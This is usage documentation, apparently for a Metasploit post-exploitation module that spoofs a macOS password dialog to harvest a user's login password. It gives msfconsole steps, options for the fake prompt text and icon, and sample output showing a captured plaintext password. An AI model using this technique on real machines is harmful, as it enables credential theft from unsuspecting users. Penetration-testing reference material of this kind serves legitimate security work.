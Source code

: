## Vulnerable Application

Presents a password prompt dialog to a logged-in OSX user.  Depending on the version of OSX, additional steps may be necessary to
allow permission for the prompt to be displayed.  See Scenarios for additional details.

## Verification Steps

  1. Start msfconsole
  2. Get a shell, user level is fine.
  3. Do: ```use post/osx/gather/password_prompt_spoof```
  4. Do: ```set session #```
  5. Do: ```run```
  6. The user will be prompted to enter their password, or complete additional steps.

## Options

### BUNDLEPATH
   Path to bundle containing icon.  Default is `/System/Library/CoreServices/CoreTypes.bundle`.

### ICONFILE
   Icon filename relative to bundle.  Default is `UserUnknownIcon.icns`

### TEXTCREDS
   Text displayed when asking for a password. Default is `Type your password to allow System Preferences to make changes`.

### TIMEOUT
   Timeout for user to enter credentails.  Default is `60`.  Newer versions of OSX may require additional time due to user interaction.

## Scenarios

### User level shell on OSX 10.14.4

If the user does not complete the prompt in time, or does not enable permissions to receive the prompt:

```
msf post(osx/gather/password_prompt_spoof) > run

[*] Running module against MacBook-Pro.nogroup
[*] Waiting for user 'h00die' to enter credentials...
[*] Timeout period expired before credentials were entered!
[*] Cleaning up files in MacBook-Pro.nogroup:/tmp/.SGFvISFemjti
[*] Post module execution completed
```

If the user DOES complete the prompt in time:

```
msf post(osx/gather/password_prompt_spoof) > run

[*] Running module against MacBook-Pro.nogroup
[*] Waiting for user 'h00die' to enter credentials...
[*] Password entered! What a nice compliant user...
[+] password file contents: 20190415_122536:h00die:alfalfasprouts!
[+] Password data stored as loot in: /loot/20190415122537_default_192.168.2.225_password_355107.txt
[*] Cleaning up files in MacBook-Pro.nogroup:/tmp/.jJATztdro
[*] Post module execution completed
```

#### User Experience

The following screen shots are from OSX 10.14.4 from a `ssh_login` shell as the user.  Executable may change depending on the shell type and user permissions.

The user is first prompts for additional permissions (System Events):

<img width="423" alt="Screen Shot 2019-04-15 at 12 19 38 PM" src="https://user-images.githubusercontent.com/752491/56173728-ead79c80-5fbc-11e9-8a8f-3b3265220c95.png">

Next, the user is prompted to allow Accessibility Access (Events):

<img width="463" alt="Screen Shot 2019-04-15 at 12 20 08 PM" src="https://user-images.githubusercontent.com/752491/56173737-f4f99b00-5fbc-11e9-9dcc-efbfe0cd08eb.png">

Clicking Open System Preferences shows the executable asking for the permissions.  The screenshot was taken after clicking the lock in the bottom left corner,
and checking `sshd-keygen-wrapper`:

<img width="670" alt="Screen Shot 2019-04-15 at 12 24 27 PM" src="https://user-images.githubusercontent.com/752491/56173742-fa56e580-5fbc-11e9-8d28-5669e9e9448f.png">

Finally, if done within the `TIMEOUT` (or with all required permissions):

<img width="424" alt="Screen Shot 2019-04-15 at 12 25 25 PM" src="https://user-images.githubusercontent.com/752491/56173748-fe830300-5fbc-11e9-9564-0e7137b051a8.png">

